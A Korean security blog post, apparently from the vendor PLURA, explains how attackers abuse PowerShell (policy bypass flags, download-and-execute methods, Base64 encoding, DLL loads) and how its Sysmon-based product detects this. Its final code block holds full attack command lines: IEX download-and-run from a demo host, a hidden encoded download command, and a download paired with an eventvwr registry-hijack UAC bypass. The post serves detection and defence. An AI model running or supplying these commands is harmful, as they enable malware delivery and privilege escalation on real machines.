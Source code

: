 ```yaml
---
date: 2020-05-12T00:03:00
draft: false
title: "PowerShell을 이용한 공격"
description: 
featured_image: "cdn/threats/powershell_attack_techniques-1.png"
tags: ["PowerShell", "악성코드", "웹 해킹", "보안 취약점", "PLURA"]
---
```


PowerShell은 시스템 관리 및 자동화를 목적으로 설계된 명령줄 셸 및 스크립팅 언어입니다.  
Windows Vista 이후 기본 탑재되었으며, 관리 도구로 유용한 만큼 공격자들에게도 자주 사용되고 있습니다.

<!--more-->
![powershell_attack_techniques](https://blog.plura.io/cdn/threats/powershell_attack_techniques-1.png)

---

### 1. 실행 정책 (Execution Policy)

Microsoft는 기본적으로 PowerShell 스크립트 실행을 제한합니다.  
그러나 공격자는 이를 쉽게 우회할 수 있습니다.  

**우회 플래그 예시:**  
- `-ExecutionPolicy` 또는 `-EP Bypass`  
- `-ExecutionPolicy` 또는 `-EP Unrestricted`  
- `-noprofile` 또는 `-nop`  

*Profile Bypass: 각 세션이 시작될 때 PowerShell을 구성하기 위해 설정된 Profile도 무시할 수 있습니다.*

---

### 2. 다운로드

PowerShell 클래스 및 메소드를 사용하여 악성 파일을 다운로드 및 실행할 수 있습니다.  

자주 사용되는 명령어:  
- **New-Object**: .NET Framework의 인스턴스를 생성합니다.  
- **System.Net.WebClient**: 원격 리소스와 데이터 송수신에 사용됩니다.  
- **DownloadString**: 원격지에서 내용을 메모리 버퍼로 다운로드합니다.  
- **DownloadFile**: 원격지에서 로컬 파일로 콘텐츠를 다운로드합니다.  
- **IEX (Invoke-Expression)**: 명령을 실행합니다.  
- **ICM (Invoke-Command)**: 로컬 및 원격 컴퓨터에서 명령을 실행합니다.

---

### 3. 인코딩

- PowerShell 명령어를 숨기기 위해 Base64 인코딩이 자주 사용됩니다.  
- 인코딩된 명령어는 명령줄 길이가 비정상적으로 길어질 수 있습니다.  
- 500자 이상의 긴 명령어는 의심해볼 필요가 있습니다.

---

### 4. DLL 호출

- 의심스러운 DLL 호출 조합을 찾아야 악의적 행동을 탐지할 수 있습니다.  
- PowerShell.exe 또는 PowerShell_ISE.exe 이외의 실행 파일에서 아래 DLL 호출이 발생하는지 모니터링하세요.  
  - `System.Management.Automation.Dll`  
  - `System.Management.Automation.ni.Dll`  
  - `System.Reflection.Dll`  

*Sysmon ID 7 (ImageLoaded)을 활용해 확인할 수 있습니다.*

---

### 5. PLURA에서 PowerShell 악성 행위 탐지

**Sysmon 설치 필수**  
- [설치 가이드 보기](https://docs.plura.io/ko/agents/edr/windows/sysmon)

![PLURA 탐지](https://github.com/user-attachments/assets/7f971a25-61de-4a51-8e71-c4e861881576)

---

#### 악성 파일 실행 탐지 예시

PowerShell 우회 및 공격자 서버에서 파일 다운로드 행위 발생:  

![PowerShell 악성 실행](https://github.com/user-attachments/assets/11765e61-7cd0-4b98-8fce-026429934f1c)

**PLURA 필터 탐지**  
PLURA는 Sysmon을 활용하여 아래와 같은 악성 명령을 탐지합니다:

```bash
powershell.exe -nop -NoProfile -WindowStyle 1 -c IEX (New-Object Net.WebClient).DownloadString('https://blog.plura.io/demo/testfile.exe')

cmd.exe /c Start /Min PowerShell.exe -NoP -NonI -EP ByPass -W Hidden -E JE9TPShHV21pIFdpbjMyX09wZXJhdGluZ1N5c3RlbSkuQ2FwdGlvbjskV0M9TmV3LU9iamVjdCBOZXQuV2ViQ2xpZW50OyRXQy5IZWFkZXJzWydVc2VyLUFnZW50J109IlBvd2VyU2hlbGwvV0wgJE9TIjtJRVggJFdDLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vYmxvZy5wbHVyYS5pby9kZW1vL3Rlc3RmaWxlLnBocCcpOw==

cmd.exe /c powershell.exe -w hiddden -nop -ep bypass (New-Object System.Net.WebClient).DownloadFile('http://blog.plura.io/demo/sick.exe','%TEMP%\sick.exe') & reg add HKCU\SOFTWARE\Classes\mscfile\shell\open\command /d %tmp%\sick.exe /f & C:\Windows\system32\eventvwr.exe & PING -n 15 127.0.0.1>nul & %tmp%\sick.exe
```

## 참고

- [SANS 자료](https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1511980157.pdf)  
- [Broadcom 보고서](https://docs.broadcom.com/doc/increased-use-of-powershell-in-attacks-16-en)  
- [AhnLab 기사](https://www.ahnlab.com/kr/site/securityinfo/secunews/secuNewsView.do?seq=25651)  

---

## 관련 기사, 보안뉴스

- [보안뉴스 보기](https://bit.ly/2V99SLF)


